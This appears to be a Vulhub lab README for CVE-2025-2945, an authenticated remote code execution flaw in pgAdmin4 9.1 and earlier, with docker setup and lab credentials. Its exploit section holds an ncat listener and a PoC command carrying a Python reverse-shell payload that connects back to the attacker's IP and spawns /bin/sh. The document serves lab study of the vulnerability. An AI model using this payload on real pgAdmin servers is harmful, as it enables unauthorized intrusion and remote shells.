

# pgAdmin4 <= 9.1 Authenticated Remote Code Execution (CVE-2025-2945)

pgAdmin is a popular and feature rich Open Source administration and development platform for PostgreSQL.

A remote Code Execution security vulnerability in pgAdmin 4. The vulnerability is associated with the 2 POST endpoints; /sqleditor/query_tool/download, where the query_commited parameter and /cloud/deploy endpoint, where the high_availability parameter is unsafely passed to the Python eval() function, allowing arbitrary code execution. This issue affects pgAdmin 4: before 9.2.

References:

- https://nvd.nist.gov/vuln/detail/CVE-2025-2945
- https://github.com/advisories/GHSA-g73c-fw68-pwx3

## Environment

```bash
docker compose up -d
```

Then access http://localhost:5050/ for pgAdmin4 login page. pgAdmin4 username and password: `vulhub@example.com:vulhub`.

Exploiting this vulnerability also requires an accessable PostgresSQL database instance (to initialize the sql editor). It is already included in the docker-compose.yml and added to pgAdmin4's server list. Database username and password: `vulhub:vulhub`.

## Exploit

To exploit the server, use metasploit's `exploit/multi/http/pgadmin_query_tool_authenticated`, or a standalone python script: https://github.com/Cycloctane/cve-2025-2945-poc/blob/main/exp.py .

Open a tcp listener for reverse shell:

```bash
ncat -lvvp 1337
```

Then run the `exp.py` with python reverse shell payload. Also input the credentials of pgAdmin4 (`--username` and `--password`) and one of the postgres databases in pgAdmin4's server list (`--db-user` and `--db-pass`).

```bash
./exp.py --target-url http://<target-ip>:5050 \
    --username vulhub@example.com --password vulhub \
    --db-user vulhub --db-pass vulhub --db-name vulhub \
    --payload 'exec("import sys,socket,os,pty;s=socket.socket();s.connect((\"<your-ip>\",1337));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")")'
```


